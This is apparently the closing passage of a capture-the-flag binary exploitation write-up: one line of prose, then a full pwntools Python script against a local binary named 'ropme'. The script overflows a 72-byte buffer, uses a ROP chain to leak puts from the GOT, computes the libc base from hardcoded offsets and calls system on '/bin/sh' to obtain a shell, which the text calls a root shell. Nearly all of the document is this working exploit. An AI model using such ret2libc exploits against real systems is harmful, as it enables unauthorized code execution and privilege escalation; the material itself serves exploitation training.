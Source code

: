 
After running the exploit we should see that we have a root shell.

```python
#!/usr/bin/python3

from pwn import *

log.info("Pwnage by memN0ps!!!")

context(os="linux", arch="amd64")
context.log_level="DEBUG"
#context(terminal=['tmux', 'new-window'])

p = process("./ropme")
#p = gdb.debug("./ropme", "b main")


pop_rdi = p64(0x4006d3)
got_puts = p64(0x601018)
plt_puts = p64(0x4004e0)
plt_main = p64(0x400626)


payload = b"A" * 72
payload += pop_rdi
payload += got_puts
payload += plt_puts
payload += plt_main

p.recvuntil("ROP me outside, how 'about dah?\n")
p.sendline(payload)

leaked_puts = p.recvline()[:8].strip().ljust(8, b'\x00')
leaked_puts = u64(leaked_puts)
log.success("Leaked puts@GLIBC_2.2.5: " + hex(leaked_puts))

libc_puts = 0x0765f0

libc = leaked_puts - libc_puts
log.success("Base address of GLIBC_2.2.5: " + hex(libc))

bin_sh_offset = 0x18a152
system_offset = 0x048e50

bin_sh = p64(libc + bin_sh_offset)
system = p64(libc + system_offset)
ret = p64(0x4004c9)


payload = b"A" * 72
payload += pop_rdi
payload += bin_sh
payload += ret
payload += system

p.recvuntil("ROP me outside, how 'about dah?\n")
p.sendline(payload)

p.interactive()
```
